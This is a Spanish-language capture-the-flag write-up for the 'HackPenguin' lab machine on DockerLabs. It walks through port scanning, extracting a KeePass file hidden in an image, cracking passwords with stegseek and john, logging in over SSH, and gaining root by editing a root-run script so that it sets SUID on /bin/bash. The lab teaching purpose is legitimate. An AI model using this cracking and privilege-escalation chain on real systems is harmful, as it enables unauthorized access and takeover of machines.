





----------------------------


------------------
HackPenguin, es una maquina Linux de dificultad Medio de la plataforma DockerLabs, donde se puede practicar Estenografía, crack de hash y escalada de privilegios mediante un script de bash.

--------------------------------
# [](#header-1)Reconocimiento
Comenzando con nmap para descubrir los puertos abiertos
```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 17:28 -03
Initiating ARP Ping Scan at 17:28
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 17:28, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:28
Scanning 10.88.0.2 [65535 ports]
Discovered open port 80/tcp on 10.88.0.2
Discovered open port 22/tcp on 10.88.0.2
Completed SYN Stealth Scan at 17:28, 0.80s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-08-01 17:28:39 -03 for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 76:17:5E:C1:9F:DF (Unknown)
```
Vemos que tenemos el puerto 22 y el 80, haremos un escaneo mas exhaustivo para ver que tenemos en estos dos puertos
```bash
❯ nmap -p22,80 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 17:33 -03
Nmap scan report for 10.88.0.2
Host is up (0.000071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
|_  256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 76:17:5E:C1:9F:DF (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.82 seconds
```
Veremos que nos reporta whatweb respecto a las tecnologías que corren por detrás de la pagina web 
```bash
❯ whatweb http://10.88.0.2
http://10.88.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.88.0.2], Title[Apache2 Ubuntu Default Page: It works]
```
Vemos un defalut page de Apache2 iremos a comprobar esto, efectivamente tenemos la pagina por defecto de Apache



Utilizaremos  `gobuster` para descubrir directorio o archivo existentes , vemos que con extensiones de archivos nos descubre penguin.htm y index.html
```bash
❯ gobuster dir -u http://10.88.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,backup,zip,.back
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.88.0.2
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,backup,zip,back
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10671]
/.html                (Status: 403) [Size: 274]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 274]
Progress: 334960 / 1323360 (25.31%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 339902 / 1323360 (25.68%)
```
No vemos mas que una imagen de pingüinos, por lo tanto descargamos la imagen y ver si esconde algo.



le pasamos `steghide` para extraer los datos, pero como nos pide una contraseña lo intentaremos crackear con `stegseek`
```bash
steghide extract -sf penguin.jpg
Anotar salvoconducto: 
steghide: no pude extraer ningn dato con ese salvoconducto!
```
Vemos que conseguimos la contraseña para poder ver lo que esta escondiendo por detrás de esta imagen
```bash
❯ stegseek --crack penguin.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "chocolate"

[i] Original filename: "penguin.kdbx".
[i] Extracting to "penguin.jpg.out".
```
Vemos que por destras habia un archivo con extension `kdbx` y la passphrase era `chocolate`. Si probamos esa pass en `keepassxc` veremos que nos da error, por lo tanto intentaremos crackear la contraseña del archivo `KeePass`.
Una vez tenemos el hash podemos intentar crackearlo con john
```bash
❯ keepass2john penguin.kdbx > hash
```
Conseguimos la contraseña por lo que ahora nos vamos a dirigir a keepassxc
 ```bash
 ❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (penguin)     
1g 0:00:00:00 DONE (2024-08-01 18:54) 4.347g/s 139.1p/s 139.1c/s 139.1C/s 654321..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Abrimos keepassxc pasandole el archivo `penguin.kdbx`



Ahora con esta contraseña intentaremos conectarnos por SSH
```bash
❯ ssh penguin@10.88.0.2
Last login: Sun Apr 14 08:24:53 2024 from 172.17.0.1
$ whoami
penguin
penguin@b946ad863458:~$ hostname -I
10.88.0.2 
```
Ahora toca escalar Privilegios

------------
## [](#header-2)Privilege Escalation
En un principimos, no tenemos privilegios SUID, no pertenecemos a ningun grupo especial o tenemos permisos SUID, lo que si encontramos es un `script.sh` que le pertenece a `root` pero se encuentra en nuestro directorio personal y vemos que lo podemos ejecutar, leer y modificar.
```bash
penguin@b946ad863458:~$ ls
archivo.txt  script.sh
penguin@b946ad863458:~$ ls -la
total 4
drwxrwxrwx 1 root    root        34 Aug  1 22:12 .
drwxr-xr-x 1 root    root        22 Apr 15 07:22 ..
drwx------ 1 penguin hackpenguin 40 Aug  1 22:12 .cache
-rwxrwxrwx 1 root    root         0 Aug  1 22:17 archivo.txt
-rwxrwxrwx 1 root    root        56 Apr 15 07:26 script.sh
```
si vemos los procesos que se están ejecutando vemos que root esta ejecutando el script.sh



Por lo tanto vamos a cambiar el contenido de este script y cambiarlo asi root cuando ejecute el script nos cambia los permisos de la bash, primero vemos que permisos tiene la bash
```bash
penguin@b946ad863458:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
En el script introducimos lo siguiente
```bash
#!/bin/bash

chmod u+s /bin/bash
echo 'pinguino no hackeable' > archivo.txt
```
Ahora si vemos los permisos de la bash vermos que cambio SUID
```bash
penguin@b946ad863458:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
Ahora solo hacemos `bash -p(privilege)` y veremos que nos otorga una bash como root
```bash
penguin@b946ad863458:~$ bash -p
bash-5.1# whoami
root
```


